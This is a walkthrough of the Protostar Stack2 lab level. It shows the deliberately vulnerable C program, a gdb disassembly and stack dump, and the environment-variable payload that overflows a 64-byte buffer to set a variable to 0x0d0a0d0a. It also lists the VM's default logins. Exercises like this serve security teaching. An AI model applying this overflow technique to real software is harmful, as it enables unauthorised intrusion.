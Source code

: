 # Protostar - Stack2
* Getting started
    
    Once the virtual machine has booted, you are able to log in as the “user” account with the password “user” (without the quotes).
    The levels to be exploited can be found in the /opt/protostar/bin directory.
    For debugging the final levels, you can log in as root with password “godmode” (without the quotes)


* Core Files

    README! The /proc/sys/kernel/core_pattern is set to /tmp/core.%s.%e.%p. This means that instead of the general ./core file you get, it will be in a different directory and different file name.


## __Stack2__
* About
  
  Stack2 looks at environment variables, and how they can be set.

  This level is at /opt/protostar/bin/stack2

* Source Code 
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}

```

  This is similar to Stack1 but we have to overflow the "modified" variable with specific value, 0x0d0a0d0a. But now the program will retrieve our input from environment variable call GREENIE so we have to export our GREENIE environment variable to exploit this vulnerability.
```
user@protostar:~$ export GREENIE=$(python -c 'print("A"*64)')
user@protostar:~$ gdb /opt/protostar/bin/stack2
GNU gdb (GDB) 7.0.1-debian
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /opt/protostar/bin/stack2...done.
(gdb) disassemble main
Dump of assembler code for function main:
0x08048494 <main+0>:    push   %ebp
0x08048495 <main+1>:    mov    %esp,%ebp
0x08048497 <main+3>:    and    $0xfffffff0,%esp
0x0804849a <main+6>:    sub    $0x60,%esp
0x0804849d <main+9>:    movl   $0x80485e0,(%esp)
0x080484a4 <main+16>:   call   0x804837c <getenv@plt>
0x080484a9 <main+21>:   mov    %eax,0x5c(%esp)
0x080484ad <main+25>:   cmpl   $0x0,0x5c(%esp)
0x080484b2 <main+30>:   jne    0x80484c8 <main+52>
0x080484b4 <main+32>:   movl   $0x80485e8,0x4(%esp)
0x080484bc <main+40>:   movl   $0x1,(%esp)
0x080484c3 <main+47>:   call   0x80483bc <errx@plt>
0x080484c8 <main+52>:   movl   $0x0,0x58(%esp)
0x080484d0 <main+60>:   mov    0x5c(%esp),%eax
0x080484d4 <main+64>:   mov    %eax,0x4(%esp)
0x080484d8 <main+68>:   lea    0x18(%esp),%eax
0x080484dc <main+72>:   mov    %eax,(%esp)
0x080484df <main+75>:   call   0x804839c <strcpy@plt>
0x080484e4 <main+80>:   mov    0x58(%esp),%eax
0x080484e8 <main+84>:   cmp    $0xd0a0d0a,%eax
0x080484ed <main+89>:   jne    0x80484fd <main+105>
0x080484ef <main+91>:   movl   $0x8048618,(%esp)
0x080484f6 <main+98>:   call   0x80483cc <puts@plt>
0x080484fb <main+103>:  jmp    0x8048512 <main+126>
0x080484fd <main+105>:  mov    0x58(%esp),%edx
0x08048501 <main+109>:  mov    $0x8048641,%eax
0x08048506 <main+114>:  mov    %edx,0x4(%esp)
0x0804850a <main+118>:  mov    %eax,(%esp)
0x0804850d <main+121>:  call   0x80483ac <printf@plt>
0x08048512 <main+126>:  leave  
0x08048513 <main+127>:  ret    
End of assembler dump.
(gdb) break *0x080484e8
Breakpoint 1 at 0x80484e8: file stack2/stack2.c, line 22.
(gdb) run
Starting program: /opt/protostar/bin/stack2 

Breakpoint 1, 0x080484e8 in main (argc=1, argv=0xbffff834) at stack2/stack2.c:22
22      stack2/stack2.c: No such file or directory.
        in stack2/stack2.c
(gdb) x/40xw $esp
0xbffff720:     0xbffff738      0xbffff9d3      0xb7fff8f8      0xb7f0186e
0xbffff730:     0xb7fd7ff4      0xb7ec6165      0x41414141      0x41414141
0xbffff740:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff750:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff760:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff770:     0x41414141      0x41414141      0x00000000      0xbffff9d3
0xbffff780:     0x08048530      0x00000000      0xbffff808      0xb7eadc76
0xbffff790:     0x00000001      0xbffff834      0xbffff83c      0xb7fe1848
0xbffff7a0:     0xbffff7f0      0xffffffff      0xb7ffeff4      0x0804829c
0xbffff7b0:     0x00000001      0xbffff7f0      0xb7ff0626      0xb7fffab0
(gdb) 
```

  Above, you will see that we export the GREENIE variable to be 64 "A" then our input has almost overflow "modified" variable so we have to add more character, \x0a\x0d\x0a\x0d to overflow the variable with the correct value.

### _Solution_
```
user@protostar:~$ export GREENIE=$(python -c 'print("A"*64 + "\x0a\x0d\x0a\x0d")')
user@protostar:~$ /opt/protostar/bin/stack2
you have correctly modified the variable
```